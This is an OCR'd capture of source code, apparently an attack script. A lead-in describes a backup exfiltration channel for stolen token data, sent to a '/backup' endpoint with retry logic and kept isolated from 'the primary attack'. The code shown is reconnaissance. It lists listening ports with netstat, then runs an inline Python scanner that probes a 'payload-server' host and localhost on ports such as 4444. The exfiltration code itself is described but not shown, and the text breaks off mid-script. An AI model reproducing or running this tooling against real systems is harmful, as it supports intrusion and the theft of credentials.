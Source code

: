 this function creates a separate backup channel for token data. it uses a different endpoint `/backup` for a secondary exfiltration if the primary exfiltration fails. it includes metadata about the exfiltrated content and has a rety logic with exponential backoff. it's also isolated in a subshell to prevent errors from terminating the primary attack.

```bash
log "$CYAN" "Scanning the host ..."
log "$BLUE" "Checking for running services that might be vulnerable..."
# Check for running services on common ports
log "$BLUE" "Checking localhost ports:"
netstat_result=$(netstat -tuln | grep LISTEN)
log "$GREEN" "Found listening ports:"
echo "$netstat_result"

# Create a much simpler port scanner that won't hang
log "$CYAN" "Running simplified port scan..."

# Run in a subshell with a timeout to prevent hanging
(timeout 20 python3 -c '
import socket
import time
import sys
import os

print("\n===== QUICK PORT SCAN =====")

# Function to scan a single port with timeout
def scan_port(ip, port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(0.5)
        result = s.connect_ex((ip, port))
        s.close()
        return result == 0
    except Exception as e:
        print("Error scanning {}:{} - {}".format(ip, port, str(e)))
        return False

# Check payload server
payload_server = "payload-server.default.svc.cluster.local"
print("\nScanning payload server: {}".format(payload_server))
try:
    payload_ip = socket.gethostbyname(payload_server)
    print("Resolved to: {}".format(payload_ip))
    
    # Check these key ports
    for port in [22, 80, 443, 8080, 4444, 7456]:
        is_open = scan_port(payload_ip, port)
        status = "OPEN" if is_open else "CLOSED"
        print("Port {}: {}".format(port, status))
        time.sleep(0.1)  # Small delay to avoid overloading
except Exception as e:
    print("Error checking payload server: {}".format(str(e)))

# Check localhost 
print("\nScanning localhost (127.0.0.1)")
for port in [22, 80, 443, 8080, 4444, 7456]:
    is_open = scan_port("127.0.0.1", port)
    status = "OPEN" if is_open else "CLOSED"
    print("Port {}: {}".format(port, status))
    time.sleep(0.1)

# For more detailed diagnosis on why the ports are shown as closed on localhost
print("\n===== DETAILED LOCALHOST PORTS =====")
```